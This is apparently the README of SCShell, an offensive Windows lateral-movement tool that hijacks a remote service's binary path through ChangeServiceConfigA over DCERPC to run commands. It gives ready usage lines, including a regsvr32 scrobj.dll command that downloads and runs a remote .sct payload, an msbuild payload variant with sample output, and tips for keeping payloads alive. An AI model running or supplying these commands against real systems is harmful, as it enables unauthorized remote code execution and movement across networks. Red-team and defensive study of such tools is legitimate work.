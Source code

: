 # SCShell

Fileless lateral movement tool that rely on ChangeServiceConfigA to run command. The beauty of this tool is that it doesn't perform authentication against SMB everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute code)

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it start the service.

Everything is happening over DCERPC including authentication.

![network]()


# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload username domain password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c regsvr32 /s /n /u /i://your.website/payload.sct scrobj.dll" administrator . Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" administrator . Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler

# Credit
Mr.Un1k0d3r RingZer0 Team
Tazz0 for the moral support
